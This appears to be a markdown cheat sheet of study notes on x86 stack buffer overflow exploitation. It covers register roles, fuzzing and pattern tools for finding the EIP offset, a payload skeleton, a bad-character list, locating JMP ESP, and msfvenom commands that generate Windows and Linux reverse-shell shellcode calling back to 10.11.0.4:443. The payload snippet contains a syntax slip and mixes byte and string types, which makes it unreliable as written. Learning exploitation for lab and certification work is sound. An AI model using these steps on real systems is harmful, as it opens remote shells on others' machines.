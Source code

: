 # Buffer Overflow

### CPU Register

32-bit register:

* EAX (accumulator): Arithmetical and logical instructions
* EBX (base): Base pointer for memory addresses
* ECX (counter): Loop, shift, and rotation counter
* EDX (data): I/O port addressing, multiplication, and division
* ESI (source index): Pointer addressing of data and source in string copy operations
* EDI (destination index): Pointer addressing of data and destination in string copy operations
* EBP - The Base Pointer
* ESP - The Stack Pointer
* EIP - The Instruction Pointer

16-bit and 8-bit sub registers

<figure><img src="../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Debug Tools

* Immunity Debugger (for Windows)
* EDB (for Linux)

### Exploit buffer overflow

#### Replicating the Crash and Control EIP

First, we need to determine the length that causes the crash by fuzzing the program. Then, instead of using A's to fill the buffer, we can use a non-repeating string:

```sh
msf-pattern_create -l 800
```

To finding the offset, we can use the following command (42306142 is value of EIP when the program crashes):

```sh
msf-pattern_offset -l 800 -q 42306142
```

Finally, we have a payload with structure:

```sh
filler = b"A" * 780 # To fill the buffer
eip = b"B" * 4 # To overwrite EIP
offset b= "C" * 4 # To overwrite the offset
nops = "\x90" * 100 
ourshell = b"D" * 500 # To overwrite the shellcode
```

### Checking for Bad Characters

Check for some characters that are considered "bad" and should not be used in our buffer:

```sh
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
```

HTTP, HTTPS bad characters: 0x00, 0x0A, 0x0D, 0x25, 0x26, 0x2B, and 0x3D.

### Redirecting the Execution Flow

We need find a JMP ESP instruction in Windows in the program memory. Find libraries in Windows is a solution. But, address criteria:

* Must be static
* Must not contain any of the bad characters

#### Finding a Return Address

**On Immunity Debugger**

```sh
!mona modules
```

**On EDB**

Use OpcodeSearcher plugin

### Generating Shellcode

{% code overflow="wrap" %}
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
{% endcode %}

{% code overflow="wrap" %}
```sh
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -b "\x00\x20" -f py -v shellcode
```
{% endcode %}

\
